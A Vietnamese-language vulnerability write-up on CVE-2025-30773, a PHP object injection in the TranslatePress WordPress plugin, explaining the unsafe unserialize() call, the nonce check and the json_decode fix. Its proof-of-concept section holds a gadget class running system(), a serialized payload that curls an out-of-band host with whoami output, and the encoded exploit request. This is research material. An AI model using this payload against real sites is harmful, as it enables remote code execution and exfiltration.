

<!--more-->

## CVE & Basic Info
Lỗ hổng Deserialization of Untrusted Data trong Cozmoslabs TranslatePress cho phép Object Injection. Vấn đề này ảnh hưởng đến TranslatePress: từ n/a cho đến phiên bản 2.9.6.

* **CVE ID**: [CVE-2025-30773](https://www.cve.org/CVERecord?id=CVE-2025-30773)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 2.9.6
* **Patched Versions**: 2.9.7
* **CVSS severity**: High (7.2)
* **Required Privilege**: Administrator
* **Product**: [WordPress TranslatePress Plugin](https://wordpress.org/plugins/translatepress-multilingual/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **TranslatePress**:  
    * `2.9.6` – **vulnerable**  
    * `2.9.7` – **patched
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Cause
**Trong phiên bản lỗi (v2.9.6):**

```php {title="class-upgrade.php v2.9.6" data-open=true hl_lines=[11]}
public function trp_update_database(){
    if ( ! current_user_can( apply_filters('trp_update_database_capability', 'manage_options') ) ){
        $this->stop_and_print_error( __('Update aborted! Your user account doesn\'t have the capability to perform database updates.', 'translatepress-multilingual' ) );
    }

    $nonce = isset( $_REQUEST['trp_updb_nonce'] ) ? wp_verify_nonce( sanitize_text_field( $_REQUEST['trp_updb_nonce'] ), 'tpupdatedatabase' ) : false;
    if ( $nonce === false ){
        $this->stop_and_print_error( __('Update aborted! Invalid nonce.', 'translatepress-multilingual' ) );
    }
    ...
    $extra_params = isset( $_REQUEST['trp_updb_extra_params'] ) ? unserialize(base64_decode(sanitize_text_field($_REQUEST['trp_updb_extra_params'] ))) : array();
    ...
}
```

Trong đoạn mã này, hàm **`unserialize()`** được gọi trực tiếp trên dữ liệu người dùng (`$_REQUEST['trp_updb_extra_params']` sau khi loại bỏ HTML và giải mã base64). Điều này tạo ra lỗ hổng nghiêm trọng:

- **Nguy cơ Object Injection**: Nếu attacker chèn payload PHP object vào dữ liệu base64, quá trình decode và unserialize sẽ khởi tạo object độc hại, dẫn đến **Object Injection** và có khả năng tiến tới **Remote Code Execution (RCE)**.  
- **Thiếu kiểm tra an toàn**: Không có bước xác thực dữ liệu trước khi thực hiện unserialize.  
- **Không có cơ chế fallback**: Nếu dữ liệu không hợp lệ hoặc bị lỗi, hệ thống không có phương án xử lý thay thế, khiến ứng dụng dễ bị khai thác.  

**Bản vá (v2.9.7):** 


Thay thế `unserialize()` bằng `json_decode()`:

Không còn dùng `unserialize()` → loại bỏ hoàn toàn khả năng `PHP Object Injection`.

## Analysis
Hàm `trp_update_database()` kiểm tra xem người dùng hiện tại có phải Administrator thông qua:  

```php
if ( ! current_user_can( apply_filters('trp_update_database_capability', 'manage_options') ) ){
    $this->stop_and_print_error( __('Update aborted! Your user account doesn\'t have the capability to perform database updates.', 'translatepress-multilingual' ) );
}
```

Đồng thời, hàm cũng xác thực `nonce` để ngăn chặn CSRF:  

```php
$nonce = isset( $_REQUEST['trp_updb_nonce'] ) ? wp_verify_nonce( sanitize_text_field( $_REQUEST['trp_updb_nonce'] ), 'tpupdatedatabase' ) : false;
if ( $nonce === false ){
    $this->stop_and_print_error( __('Update aborted! Invalid nonce.', 'translatepress-multilingual' ) );
}
```

Trong trường hợp không có `nonce`, lỗ hổng có thể bị khai thác bởi Unauthenticated khi admin bị dụ truy cập vào trang của attacker, từ đó trình duyệt gửi request kèm cookie của admin, quyền `manage_options` luôn tồn tại và các logic phía sau sẽ được thực thi.

Khi search với tên hàm `trp_update_database` 



`trp_update_database` được đặt làm giá trị cho param `page` => `trp_update_database` là callback và sẽ được gọi khi truy cập `/wp-admin/admin.php?page=trp_update_database`.

## Flow


graph TD

A["Administrator visits /wp-admin/admin.php?page=trp_update_database"] --> B["trp_update_database() invoked"]

B --> C{"Check capability: current_user_can(manage_options)"}
C -->|Fail| X["Stop & print error: insufficient privilege"]
C -->|Pass| D["Verify nonce: wp_verify_nonce()"]

D -->|Fail| Y["Stop & print error: Invalid nonce"]
D -->|Pass| E["Read trp_updb_extra_params"]

E --> F["base64_decode()"]
F --> G["unserialize()"]

G --> H{"Is payload malicious?"}
H -->|Yes| R["Object Injection → Code Execution (RCE)"]
H -->|No| S["Continue update process normally"]



## Proof of Concept (PoC)
1. Tạo class để test đặt trong `wp-config.php`
```php
class Evil
{
    public $command = "ls /";
    public function __destruct()
    {
        die(system($this->command));
    }
}
```
2. Cho request đi qua proxy của BurpSuite
3. Gửi lại request với trp_updb_extra_params chứa chuỗi serialized được encode base64

```php
trp_updb_extra_params = base64_encode('O:4:"Evil":1:{s:7:"command";s:75:"curl http://p8ye6bo0snakjfntwfcv7zvcz35utkh9.oastify.com/?leadked=$(whoami)";}')
```

```HTTP
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: administrator_cookie
...

action=trp_update_database&trp_updb_nonce=808dff22f9&initiate_update=true&trp_updb_extra_params=Tzo0OiJFdmlsIjoxOntzOjc6ImNvbW1hbmQiO3M6NzU6ImN1cmwgaHR0cDovL3A4eWU2Ym8wc25ha2pmbnR3ZmN2N3p2Y3ozNXV0a2g5Lm9hc3RpZnkuY29tLz9sZWFka2VkPSQod2hvYW1pKSI7fQ==
```


# Conclusion

Lỗ hổng xuất phát từ việc `unserialize()` được sử dụng trực tiếp trên dữ liệu người dùng mà không có xác thực bổ sung, tạo điều kiện cho việc khởi tạo đối tượng tùy ý và dẫn đến thực thi mã từ xa nếu payload độc hại được cung cấp. Khi kết hợp với khả năng khai thác CSRF, admin có thể bị lừa thực thi payload theo ý attacker. Việc chuyển sang `json_decode()` trong bản vá 2.9.7 loại bỏ hoàn toàn bề mặt tấn công này và giải quyết triệt để lỗ hổng.

# Key Takeaways

* `unserialize()` trên dữ liệu không tin cậy luôn mang rủi ro Object Injection và có thể dẫn tới RCE.
* Cần xác thực và kiểm soát chặt chẽ dữ liệu người dùng trước khi xử lý.
* CSRF có thể nâng rủi ro từ “Authenticated exploit” thành “Silent exploitation”.
* `json_decode()` là lựa chọn an toàn hơn cho trao đổi dữ liệu giữa client và server.
* Kiểm tra diff giữa bản lỗi và bản vá giúp nhanh chóng xác định nguyên nhân và phương pháp khắc phục.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress TranslatePress Plugin <= 2.9.6 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/translatepress-multilingual/vulnerability/wordpress-translatepress-2-9-6-php-object-injection-vulnerability)     